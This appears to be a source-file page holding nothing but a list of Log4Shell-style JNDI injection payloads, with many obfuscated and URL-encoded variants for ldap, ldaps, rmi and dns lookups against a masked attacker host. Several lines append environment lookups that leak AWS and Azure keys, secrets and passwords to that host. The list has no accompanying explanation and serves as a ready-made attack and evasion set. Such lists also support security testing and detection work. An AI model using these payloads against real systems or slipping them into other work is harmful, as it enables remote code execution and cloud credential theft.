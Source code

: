 ${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://****/z}
${${::-j}${::-n}${::-d}${::-i}:${::-d}${::-n}${::-s}://****/z}
${jnd${sys:SYS_NAME:-i}:ldap:/****/z}
${jnd${sys:SYS_NAME:-i}:ldaps:/****/z}
${jnd${sys:SYS_NAME:-i}:rmi:/****/z}
${jnd${sys:SYS_NAME:-i}:dns:/****/z}
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldap://****/z}
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldaps://****/z}
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:rmi://****/z}
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:dns://****/z}
${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'l'}${date:'d'}${date:'a'}${date:'p'}${date:'s'}://****/z}
${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'r'}${date:'m'}${date:'i'}://****/z}
${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'d'}${date:'n'}${date:'s'}://****/z}
${${what:ever:-j}${some:thing:-n}${other:thing:-d}${and:last:-i}:ldaps://****/z}
${${what:ever:-j}${some:thing:-n}${other:thing:-d}${and:last:-i}:rmi://****/z}
${${what:ever:-j}${some:thing:-n}${other:thing:-d}${and:last:-i}:dns://****/z}
${\u006a\u006e\u0064\u0069:ldap://****/z}
${\u006a\u006e\u0064\u0069:ldaps://****/z}
${\u006a\u006e\u0064\u0069:rmi://****/z}
${\u006a\u006e\u0064\u0069:dns://****/z}
${jndi:ldap://127.0.0.1#****/z}
${jndi:ldaps://127.0.0.1#****/z}
${jndi:rmi://127.0.0.1#****/z}
${jndi:dns://127.0.0.1#****/z}
%24%7bjndi:ldap://****/z%7d
%24%7bjndi:ldaps://****%7d
%24%7bjndi:rmi://****%7d
%24%7bjndi:dns://****%7d
%24%7b%24%7benv:ENV_NAME:-j%7dndi%24%7benv:ENV_NAME:-:%7d%24%7benv:ENV_NAME:-l%7ddap%24%7benv:ENV_NAME:-:%7d//****/z%7d
%24%7b%24%7benv:ENV_NAME:-j%7dndi%24%7benv:ENV_NAME:-:%7d%24%7benv:ENV_NAME:-l%7ddaps%24%7benv:ENV_NAME:-:%7d//****/z%7d
%24%7b%24%7benv:ENV_NAME:-j%7dndi%24%7benv:ENV_NAME:-:%7d%24%7benv:ENV_NAME:-r%7dmi%24%7benv:ENV_NAME:-:%7d//****/z%7d
%24%7b%24%7benv:ENV_NAME:-j%7dndi%24%7benv:ENV_NAME:-:%7d%24%7benv:ENV_NAME:-d%7dns%24%7benv:ENV_NAME:-:%7d//****/z%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AWS_ACCESS_KEY_ID:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AWS_SECRET_ACCESS_KEY:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AMAZON_AWS_ACCESS_KEY_ID:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AMAZON_AWS_SECRET_ACCESS_KEY:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AZURE_CLIENT_ID:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AZURE_CLIENT_SECRET:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AZURE_USERNAME:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AZURE_PASSWORD:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:MSI_ENDPOINT:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:MSI_SECRET:-NO_EXISTS%7d%7d
%24%7b%24%7blower:j%7dndi:%24%7blower:l%7d%24%7blower:d%7da%24%7blower:p%7d://****/z%7d
%24%7b%24%7bupper:j%7dndi:%24%7bupper:l%7d%24%7bupper:d%7da%24%7blower:p%7d://****/z%7d
%24%7b%24%7b::-j%7d%24%7b::-n%7d%24%7b::-d%7d%24%7b::-i%7d:%24%7b::-l%7d%24%7b::-d%7d%24%7b::-a%7d%24%7b::-p%7d://****/z%7d
%24%7bjnd%24%7bsys:SYS_NAME:-i%7d:ldap:/****/z%7d
%24%7bj%24%7b%24%7b:-l%7d%24%7b:-o%7d%24%7b:-w%7d%24%7b:-e%7d%24%7b:-r%7d:n%7ddi:ldap://****/z%7d
%24%7b%24%7bdate:'j'%7d%24%7bdate:'n'%7d%24%7bdate:'d'%7d%24%7bdate:'i'%7d:%24%7bdate:'l'%7d%24%7bdate:'d'%7d%24%7bdate:'a'%7d%24%7bdate:'p'%7d://****/z%7d
%24%7b%24%7bwhat:ever:-j%7d%24%7bsome:thing:-n%7d%24%7bother:thing:-d%7d%24%7band:last:-i%7d:ldap://****/z%7d
%24%7b%24%7blower:j%7dndi:%24%7blower:l%7d%24%7blower:d%7da%24%7blower:p%7d%24%7blower:s%7d://****/z%7d
%24%7b%24%7bupper:j%7dndi:%24%7bupper:l%7d%24%7bupper:d%7da%24%7blower:p%7d%24%7bupper:s%7d://****/z%7d
%24%7b%24%7blower:j%7dndi:%24%7blower:r%7d%24%7blower:m%7da%24%7blower:i%7d://****/z%7d
%24%7b%24%7bupper:j%7dndi:%24%7bupper:r%7d%24%7bupper:m%7da%24%7blower:i%7d://****/z%7d
%24%7b%24%7blower:j%7dndi:%24%7blower:d%7d%24%7blower:n%7da%24%7blower:s%7d://****/z%7d